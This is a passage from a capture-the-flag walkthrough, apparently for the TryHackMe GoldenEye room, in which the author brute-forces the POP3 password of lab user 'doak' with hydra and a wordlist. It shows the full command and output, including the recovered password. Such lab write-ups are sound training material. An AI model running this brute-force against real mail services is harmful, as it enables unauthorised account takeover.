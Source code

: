 <p align="center"><img src="./files/message.png"></p>

Username: `doak`

### 3.5 - What was this users password?

Now that we have a username, we can try to brute-force the password for user `doak`. I used `hydra` and `fasttrack` on pop3 service:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-01 10:34:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.102.223   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
~~~

